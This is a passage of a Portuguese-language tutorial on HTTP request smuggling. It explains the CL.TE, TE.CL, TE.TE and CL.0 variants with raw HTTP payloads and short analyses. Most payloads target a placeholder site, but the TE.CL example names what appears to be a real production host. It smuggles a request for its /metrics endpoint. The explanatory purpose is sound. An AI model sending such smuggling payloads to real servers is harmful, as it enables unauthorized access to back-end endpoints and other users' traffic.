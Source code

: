 ### Ataques Clássicos: CL.TE e TE.CL

- **CL.TE**: Front-end usa CL, back-end usa TE.

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0
SMUGGLED_REQUEST
```

**Análise**:
- **Front-End (CL)**: Lê 13 bytes (ex.: `0\r\n\r\nSMUGGLED`).
- **Back-End (TE)**: Vê chunk `0` como fim, deixando `SMUGGLED_REQUEST` no buffer.

- **TE.CL**: Front-end usa TE, back-end usa CL.

```http
POST /?cb=906971031432954 HTTP/1.1
Host: apm.ap.tesla.services
Content-Length: 65
Transfer-Encoding: chunked

1
Z
0

GET /metrics HTTP/1.1
Host: apm.ap.tesla.services
```

**Análise**:
- **Front-End (TE)**: Processa chunks, encaminha tudo.
- **Back-End (CL)**: Lê 65 bytes, deixando o restante (ex.: `GET /metrics`) no buffer.

### Ataques Baseados em Ofuscação: TE.TE

Ambos os servidores usam TE, mas um é enganado por ofuscação (ex.: `Transfer-Encoding: xchunked`).

### Vulnerabilidades CL.0 e TE.0

- **CL.0**: Back-end ignora CL, tratando requisições como sem corpo.

```http
POST /vulnerable-endpoint HTTP/1.1
Host: vulnerable-website.com
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

**Análise**:
- **Front-End (CL)**: Encaminha 34 bytes.
- **Back-End (CL.0)**: Ignora corpo, deixando `GET /hopefully404` no buffer.
